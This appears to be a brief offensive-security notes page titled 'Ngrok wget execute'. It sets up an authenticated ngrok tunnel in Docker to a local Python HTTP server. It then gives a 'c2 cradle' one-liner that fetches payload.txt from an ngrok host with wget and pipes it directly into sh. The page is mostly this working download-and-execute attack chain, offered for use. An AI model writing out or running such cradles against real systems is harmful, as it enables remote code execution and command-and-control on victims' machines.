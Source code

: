 # Ngrok wget execute

```
docker run -it -e NGROK_AUTHTOKEN=<ngrok_authtoken> ngrok/ngrok http host.docker.internal:8081 --region=us --hostname=site.ngrok.io -auth="user:password"
```

Run ngrok with Docker pointing to localhost (host machine) using hostname with auth (Requires ngrok pro)

```
python3 -m http.server 8081
```

Setup python3 http server on port 8081 (host machine)

```
wget -O- --user=user --password='password' http://sneakerhax.ngrok.io/payload.txt 2>/dev/null | sh
```

Basic wget c2 cradle payload execution
